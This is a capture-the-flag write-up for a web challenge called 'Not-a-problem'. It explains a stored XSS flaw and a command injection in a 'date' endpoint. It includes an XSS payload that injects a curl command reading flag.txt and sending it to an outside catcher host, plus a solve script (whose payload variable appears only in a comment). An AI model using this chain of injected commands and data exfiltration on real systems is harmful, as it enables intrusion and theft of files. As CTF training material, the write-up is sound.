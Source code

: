 Not-a-problem - Web

Taking a look at the server.py we can generate a new id and have the payload set in the username field of data being sent to /api/stats
Also we can see that there is an XSS vulnerability at the /api/stats/<string:id>' endpoint that is returning data to the client, from object property data as str(stat['data'].
The /api/stats/<id> endpoint is vulnerable to XSS because the proper Content-Type is not being set and the usernames aren't filtered.
On success it will return us id which is uuid of the note that we can pass to the bot to visit and where our XSS will trigger. Another vector is in api/date endpoint:
```
    modifier = request.args.get('modifier','')
    
    return '{"date": "'+subprocess.getoutput("date "+modifier)+'"}'
```
We can see that we could do a command injection through modifier argument since it is directly used without any sanitization in subprocess call.

```
payload = "<script>fetch('/api/date?modifier=;curl https://{HOOK_URL}/test?$(cat flag.txt)')</script>"
```

Solve.py:

import requests
import json

HOOK_URL = "https://noproblem.requestcatcher.com/"

#Working payload : `payload = "<script>fetch('/api/date?modifier=;curl https://{HOOK_URL}/test?$(cat flag.txt)')</script>"`

data = {
    "username": f"{payload}",
    "high_score": 0
}

# Send the POST request
response = requests.post(
    "https://not-a-problem.chal.cyberjousting.com/api/stats", json=data)
id = json.loads(response.text)["id"]
print(response.text)
print(id)
data = {
    "path": f"api/stats/{id}"
}

response = requests.post(
    'https://not-a-problem-admin.chal.cyberjousting.com/visit', headers={}, data=data)
print(response.text)

